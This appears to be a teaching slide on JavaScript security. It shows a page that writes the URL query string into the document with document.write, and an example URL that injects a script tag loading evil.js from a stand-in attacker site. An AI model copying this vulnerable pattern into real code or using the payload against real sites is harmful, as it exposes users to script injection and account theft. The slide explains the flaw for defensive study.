

# JavaScript Security
<script>
    var name = decodeURIComponent(window.location.search.substring(1)) || "";
    document.write("Hello " + name);
</script>

This page is intended to be invoked with a URL like this:
http://www.example.com/greet.html?David
When used like this, it displays the text “Hello David”.
But consider what happens when it is invoked with this URL:
http://siteA/greet.html?name=%3Cscript src=siteB/evil.js%3E%3C/script%3E
The script evil.js is hosted by the evil site B, but it is now embedded in site A, and it can do absolutely anything it wants with site A’s content.